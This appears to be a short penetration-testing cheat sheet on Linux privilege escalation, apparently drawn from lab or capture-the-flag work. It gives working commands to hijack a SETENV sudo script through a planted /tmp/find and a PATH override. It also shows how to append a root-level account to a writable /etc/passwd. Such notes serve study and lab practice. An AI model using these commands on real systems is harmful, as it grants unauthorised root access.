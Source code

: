 # sudo -l 

## Case 1 - 

$sudo -l 

Matching Defaults entries for wizard on pb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on pb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

-----------------------------------------------------

If we see a SETENV in that case we need to - 

    a. cat the file /opt/cleanup.sh
    b. see which command in that doesnot have an absolute path set
    c. In our case, find didn't have an absolute path set.
    d. make an executable file in /tmp named find.  -- echo "bash" > /tmp/find && chmod +x /tmp/find
    e. Now set the PATH environment variable to /tmp and also execute the cleanup.sh script to priv esc
        
         sudo PATH=/tmp:$PATH /opt/cleanup.sh

-----------------------------------------------------       

if you have read/write access to /etc/passwd you can:
    '''openssl passwd whateverPasswordYouWant
    echo "myUser:hashFromAboveCommand:0:0:root:/root:/bin/bash" >> /etc/passwd
    su myUser'''
         
   
